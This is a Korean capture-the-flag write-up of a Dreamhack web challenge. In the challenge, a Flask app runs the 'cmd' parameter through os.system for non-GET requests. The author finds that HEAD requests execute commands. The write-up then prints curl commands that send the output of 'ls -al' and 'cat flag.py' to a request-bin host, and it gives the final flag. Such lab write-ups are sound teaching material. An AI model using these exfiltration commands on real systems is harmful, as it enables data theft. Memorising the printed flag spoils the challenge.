문제는 **Read the flag file XD** 입니다.  
뭔가 flag 파일을 찾는 문제인 것 같습니다.  
```python
#!/usr/bin/env python3
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd

app.run(host='0.0.0.0', port=8000)
```
코드를 보면 다음과 같은 기능을 합니다.  
1. cmd 를 url에서 입력받는다.
2. 만약, request method 가 **GET 이면, 아무것도 안함**
3. 그게 아니라 request method 가 **GET이 아니면, 입력받은 cmd 를 실행**한다.

   
처음에 들어가면, cmd를 입력하라는 문구가 나옵니다.  
그리고 예시를 작성하면, 다음과 같이 적은 cmd가 나오는 것을 알 수 있습니다.  
   
burp suite를 이용해 cmd에 ls를 적었을 때의 request message를 봤습니다.  
예시를 들어서, **GET 메소드로 request**를 한다면, 위의 이미지처럼 그냥 **아무것도 하지 않고 'ls' 가 나오는 것**을 알 수 있습니다.  
   
그래서 GET 메소드 말고 다른 메소드인 **POST 를 통해 request** 를 했습니다.  
그런데 **POST 메소드는 지원하지 않는다**고 나왔습니다.  
   
이럴 때 어떤 메소드를 사용할 수 있는지 알 수 있는 메소드가 있습니다.  
바로 **OPTION** 입니다.(https://gnaseel.tistory.com/24)  
그래서 위의 이미지처럼 OPTION 을 이용해서 request 를 했고, 이에 대한 response message로 **HEAD, OPTIONS, GET** 을 사용할 수 있다는 것을 알았습니다.  
  
이미지를 찍지 못했지만, 실제로 HEAD로 request 하면 POST 때처럼 오류가 발생하지 않고 그냥 정상적으로 작동합니다.  
그러나 저희가 실질적으로 사용할 수 있는 것은 **HEAD** 밖에 없습니다.  
HEAD는 GET과 동일하지만, **response에 Body가 없고** response Code와 Head만 응답받습니다.  
즉, 저희가 원하는 cmd의 결과를 받을 수 없다는 뜻입니다.  
여기서 어떻게 해야할 지 모르겠어서 찾아봤습니다.  
결론적으로 **새로운 서버를 열어서 그 서버로 적은 cmd를 요청**하면 된다는 것이었습니다.  
여기서 드림핵에서 제공해준 도구인 **https://tools.dreamhack.games/myrequest** 에서 **Request Bin** 를 사용할 수 있습니다.  
  
제가 문제를 풀었을 때 사용했던 사이트는 **https://chsfqtv.request.dreamhack.games** 입니다.  

여기까지 하면 cmd 결과를 받을 서버까지 만든 상태입니다.  
그렇다면 cmd 결과를 서버로 전송하는 명령어는 무엇일까요?  
이것도 검색결과 **curl** 라는 명령어입니다.(https://inpa.tistory.com/entry/LINUX-%F0%9F%93%9A-CURL-%EB%AA%85%EB%A0%B9%EC%96%B4-%EC%82%AC%EC%9A%A9%EB%B2%95-%EB%8B%A4%EC%96%91%ED%95%9C-%EC%98%88%EC%A0%9C%EB%A1%9C-%EC%A0%95%EB%A6%AC)  
  
즉, cmd에 **curl -X POST -d "$(ls -al)" https://chsfqtv.request.dreamhack.games** 같이 명령어를 적습니다.  
**https://chsfqtv.request.dreamhack.games 에 POST 방식으로 문제 사이트에서 ls -al 를 실행한 결과를** 전송하는 명령어입니다.  
위의 이미지는 인코딩해서 약간 다르게 나왔습니다.  
  
**ls -al** 를 했을 때 **flag.py** 가 있는 것을 확인했습니다.  
  
이전처럼 **curl -X POST -d "$(cat flag.py)" https://chsfqtv.request.dreamhack.games** 이렇게 cmd에 값을 넣는데,  ls -al 을 **cat flag.py** 를 통해 flag를 출력합니다.  
  
따라서 정답은 **DH{4c9905b5abb9c3eb10af4ab7e1645c23}** 입니다.  


